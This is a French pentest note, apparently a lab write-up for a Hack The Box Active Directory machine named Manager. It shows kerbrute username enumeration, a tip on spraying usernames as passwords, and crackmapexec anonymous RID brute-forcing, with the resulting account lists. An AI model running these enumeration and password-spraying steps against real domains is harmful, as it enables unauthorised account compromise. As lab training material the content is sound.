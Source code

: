 ```
dnsHostName: dc01.manager.htb
defaultNamingContext: DC=manager,DC=htb
currentTime: 20240219012738.0Z
configurationNamingContext: CN=Configuration,DC=manager,DC=htb
```

### Password Spray Kerbrute enum
Supposons qu'on a un mot de passe `hacked123` durant notre Pentest,  mais le probleme on connais pas son utilisateur. Dans l'enumeration avec `kerbrute` on peux aussi  mettre les users qu'on a trouver pourque ca teste ce seul mot de passe la avec le module `passwordspray` par kerbrute

**Enumerer les utilsateurs Kerberos**
```
└─$ kerbrute userenum --dc 10.10.11.236 -d manager.htb /usr/share/wordlists/Seclists/millions_users.txt 
Version: v1.0.3 (9dad6e1) - 02/18/24 - Ronnie Flathers @ropnop

2024/02/18 18:33:54 >  Using KDC(s):
2024/02/18 18:33:54 >   10.10.11.236:88

2024/02/18 18:34:21 >  [+] VALID USERNAME:       ryan@manager.htb
2024/02/18 18:35:04 >  [+] VALID USERNAME:       guest@manager.htb
2024/02/18 18:35:23 >  [+] VALID USERNAME:       cheng@manager.htb
2024/02/18 18:35:41 >  [+] VALID USERNAME:       raven@manager.htb
2024/02/18 18:37:30 >  [+] VALID USERNAME:       administrator@manager.htb

```


- **TIPS**
si tu trouve des users, utilise les aussi comme etant un mots de passe pour du passwordspraying

**Enumerer les utilsateurs crakmapexec**
Avec `cme`, si le anonymous login est autorisee on peux bien enumerer les utilisateurs dans cet AD, en utilisant le `--rid-brute 10000`
```
└─$ crackmapexec smb 10.10.11.236 -u anonymous -p "" --rid-brute 10000
SMB         10.10.11.236    445    NONE             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    NONE             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    NONE             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    NONE             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    NONE             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    NONE             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    NONE             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    NONE             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    NONE             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    NONE             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    NONE             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    NONE             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    NONE             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    NONE             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    NONE             1119: MANAGER\Operator (SidTypeUser)
```
